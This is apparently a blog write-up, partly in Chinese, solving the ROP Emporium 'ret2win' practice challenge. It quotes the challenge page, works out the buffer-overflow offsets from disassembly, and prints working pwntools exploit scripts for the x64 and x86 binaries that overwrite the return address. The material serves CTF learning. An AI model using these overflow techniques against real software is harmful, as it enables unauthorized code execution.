

ret2win
via：https://ropemporium.com/challenge/ret2win.html
Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack. Click below to download the binary.
No spoilers here
Take the time to read these challenge pages, there aren’t any spoilers and they contain important information that could save you some frustration. If you’re unfamiliar with ROP tools of the trade then check out the beginner’s guide. As it states; you’ll feed each binary with a quantity of garbage followed by your ROP chain. In this case there is a magic method we want to call and we’ll do so by overwriting a saved return address on the stack. Certainly nothing that could be called a ‘chain’ by any stretch of the imagination but we’ve got to start somewhere. We’ll do a little RE to confirm some information but nothing serious.
What am I doing
These challenges use the usual CTF objective of retrieving the contents of a file named “flag.txt” from a remote machine by exploiting a given binary. The two most common courses of action are to somehow read flag.txt back to us directly or drop a shell and read it yourself. Let’s see if ret2win has an easy way to do either of these. We’ll use the following nm one-liner to check method names. nm ret2win|grep ' t ' will tell us that the suspiciously named function ‘ret2win’ is present and r2 confirms that it will cat the flag back to us:

Double check
For a quick and dirty confirmation of how many bytes are needed to cause an overflow in the 64bit binary you can use sudo dmesg -C to clear the kernel ring buffer, run the program and type 40 characters followed by 5 capital Xs (why let the As have all the fun) then type dmesg -t to see output that hopefully looks similar to the sample below:
ret2win[14987]: segfault at a5858585858 ip 00000a5858585858 sp 00007ffe8c93d4e0 error 14 in libc-2.24.so[7fef0e075000+195000]
It’s worth confirming this before each challenge but typically you’ll need 40 bytes of garbage to reach the saved return address in the 64bit binaries and 44 bytes in the 32bit binaries.
Let’s do this
You can solve this challenge with a variety of tools, even the echo command will work, although pwntools is suggested. If you decided to go for a more complex exploit than a ret2win then be aware that input is truncated for these simpler challenges. Find out how many bytes you have to construct your chain in each challenge using ltrace <binary> and looking at the call to fgets(). If your ROP chain seems perfect but the binary is crashing before printing the flag see the [common pitfalls](https://ropemporium.com/guide.html#Common pitfalls) section of the beginner’s guide, especially if you’re using Ubuntu 18.04.
上面是官方 ret2win 页面的描述
直接入手吧
X64
直接看 pwnme 函数
void pwnme(void)
{
char local_28 [32];
memset(local_28,0,0x20);
puts(
"For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stackbuffer;\nWhat could possibly go wrong?"
);
puts(
"You there madam, may I have your input please? And don\'t worry about null bytes, we\'reusing fgets!\n"
);
printf("> ");
fgets(local_28,0x32,stdin);
return;
}
看起来没有什么大问题
但是看汇编
004007f6 48 8b 15 MOV RDX,qword ptr [stdin]
73 08 20 00
004007fd 48 8d 45 e0 LEA RAX=>local_28,[RBP + -0x20]
00400801 be 32 00 MOV ESI,0x32
00 00
00400806 48 89 c7 MOV RDI,RAX
00400809 e8 12 fe CALL fgets
ff ff
0040080e 90 NOP
0040080f c9 LEAVE
00400810 c3 RET
看到了吗，往 [RBP + -0x20] 写入 0x32 Bytes
溢出了，能覆盖到 RBP + 8 （返回地址）
要填充 0x20 + 0x8 = 028
然后我们要跳转到 ret2win 函数
假惺惺的用 nm 看 ret2win 的 plt
0x0000000000400811
payload：
from pwn import *
p = process("./ret2win")
ret2win = 0x0000000000400811
exp = "A" * 0x28
exp += p64(ret2win)
p.sendline(exp)
p.interactive()
pwn!
X86
在 pwnme 函数里面，也是一样的漏洞
其实这个跟上面的差不多，区别就在于 x86 在调用函数时是用栈来函数
08048648 6a 32 PUSH 0x32
0804864a 8d 45 d8 LEA EAX=>local_2c,[EBP + -0x28]
0804864d 50 PUSH EAX
0804864e e8 bd fd CALL fgets
ff ff
计算填充长度0x28 + 0x4 = 0x2c 这个 0x4 是 ebp 的长度
ret2win 的地址：0x08048659
Payload:
from pwn import *
p = process("./ret2win32")
ret2win = 0x08048659
exp = "A" * 0x2c
exp += p32(ret2win)
p.sendline(exp)
p.interactive()

pwn!